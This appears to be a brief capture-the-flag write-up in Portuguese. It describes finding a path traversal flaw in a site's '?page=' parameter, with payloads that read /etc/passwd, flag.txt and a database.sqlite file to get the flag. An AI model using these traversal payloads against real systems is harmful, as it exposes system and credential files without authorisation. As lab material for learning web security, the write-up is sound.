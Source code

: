 Basta acessar o site, notavel injeção PHP -> ?page={...}

Se colocar ?page={../../../../etc/passwd} retorna informações, mostrando que a página é sucetivel a ataques a diretórios

Colocando ?page=../../../../flag.txt, retorna em cor rgb(0,0,0,0) que a flaga está em database.sqlite

Logo basta ir em ?page=../../../../database.sqlite